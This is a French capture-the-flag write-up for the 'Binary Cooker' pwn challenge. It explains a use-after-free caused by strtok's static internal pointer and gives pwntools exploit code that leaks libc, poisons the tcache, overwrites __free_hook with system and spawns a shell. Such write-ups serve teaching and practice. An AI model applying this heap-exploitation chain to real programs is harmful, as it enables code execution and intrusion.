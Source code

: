 # pwn - Binary Cooker
## Description
Lorsque le premier argument de strtok est NULL, la fonction continue d'extraire
des tokens de la précédente chaine de caractères.

Voici la documentation de strtok :
> DESCRIPTION
>        The  strtok()  function  breaks  a string into a sequence of zero or
>        more nonempty tokens.  On the first call to strtok(), the string to be
>        parsed should be specified in str.  In each subsequent call that
>        should parse the same string, str must be NULL.

`strtok` stocke donc en interne un pointeur vers le prochain token.

```
// string/strtok.c
char *
strtok (char *s, const char *delim)
{
  static char *olds;
  return __strtok_r (s, delim, &olds);
}
```

Le but du challenge est d'exploiter ce comportement pour obtenir un shell.

## Vulnérabilité
En exploitant le comportement précédent il est possible d'obtenir un
use-after-free avec les appels suivants :
```c
char *s = strdup("abc,def");
strtok(s, ",");
free(s);
strtok(NULL, ","); // UAF
```

Dans le contexte du challenge, ce schéma peut être obtenu de la manière suivante :
- Nouvelle session
- `i` -> "abc,def"
- Split (`s`) : `strtok(s->buf, delim)`
- Reset de la session (`r`) : `free(s->buf)`
- Next token (`n`) : `strtok(NULL, delim)`

En effet, le reset de la session libère toutes les chaines de caractères
présentes dans la session, et il est possible d'appeler `strtok(NULL, DELIM)`
via `next_token`. Il y a donc un use-after-free.

## Exploitation
### Leak libc
Voici les étapes pour obtenir un leak de la libc :

![Schéma leak libc](assets/leak.png)

1. Allouer 7 buffers et faire pointer le pointeur interne de strtok (`olds`) dans le chunk #7.
```py
# alloc 7 buffers (#1 - #7)
cmd("i", (b"A" * 7 + b",").ljust(BUF_SIZE, b"A"))
for _ in range(6):
    cmd("p")

# set the current buffer as buffer #7
cmd("P")
# set the strtok's internal pointer (olds) in buffer #7
cmd("s")
```

2. Reset la session pour free tous les chunks.
```py
# free all the chunks
# all the buffers end up in tcache, and the session is put in unsorted bin (as
# tcache 0xa0 has been filled by the buffers)
cmd("r")
```

3. Allouer des chunks de sorte que le prochain reset de session créé un chunk
   dans l'unsorted bin à l'emplacement du buffer #7.
```py
# consume the unsorted chunk
cmd("i", b"B" * 0x37)
cmd("p")

# alloc a new chunk after the new session to avoid it being consolidated with the top chunk
cmd("p")

# fill the 0xa0 tcache
cmd("i", b"B" * BUF_SIZE)
for _ in range(6):
    cmd("p")
```

4. Reset la session. Le chunk de l'unsorted bin contient maintenant des
   pointeurs vers la libc. Trigger la vulnérabilité pour obtenir un leak.
```py
# leak unsorted->bk
cmd("r")
leak = cmd("n")
leak = u64(leak.ljust(8, b"\x00"))

libc.address = leak - 0x1ECBE0
print(f"libc @ {hex(libc.address)}")
```

### Shell
L'obtention d'une primitive d'écriture arbitraire se fait via un tcache
poisoning. Il faut dans un premier temps obtenir un use-after-free sur une
structure de session puis modifier `s->stack_idx` afin de pouvoir modifier la
liste chainée d'un tcache.

![Schéma écriture arbitraire](assets/arb_write.png)

1. Allouer 4 chunks de taille 0x20, ce seront les chunks cibles pour le tcache
   poisoning. Allouer 7 chunks de taille 0xa0 et faire pointer `olds` sur le
   dernier chunk de 0xa0. Ces chunks vont remplir le tcache de taille 0xa0 et
   l'ancienne session va tomber dans l'unsorted bin, l'objectif est de faire en
   sorte que la prochaine session soit allouée par
   dessus un buffer.
```py
# alloc some 0x20 chunks
r.sendlineafter(b"initial buffer: ", b"A")
for _ in range(3):
    cmd("p")

# alloc 7 chunks of size 0xa0 to fill tcache
# when free'd, the first session will ends up unsorted
# so the next session will be allocated from the tcache bin
cmd("i", (b"B" * 0x8F + b",").ljust(BUF_SIZE, b"B"))
for _ in range(6):
    cmd("p")

cmd("P")
cmd("s")
```

2. Reset la session.
```py
cmd("r")
```

3. Réécrire `s->stack_idx` par un index négatif pour faire pointer la stack de
   la session vers un chunk déjà libéré. Il est ensuite possible de faire un
   tcache poisoning pour obtenir une primitive d'écriture arbitraire.
```py
# trigger the vuln
cmd("n")
# we now have s->buf = &s->stack_idx

# update stack_idx
# corrupt tcache 0x20 linked-list
cmd("i", p64(-126, sign="signed") + b"\x01")

cmd("P")

target = libc.sym["__free_hook"] - 8
cmd("i", p64(target))

# overwrite __free_hook
cmd("r")
cmd("i", b"/bin/sh;" + p64(libc.sym["system"]))
cmd("p")
cmd("p")
r.sendlineafter(b"\n> ", b"r")

r.sendline(b"cat flag.txt")
```
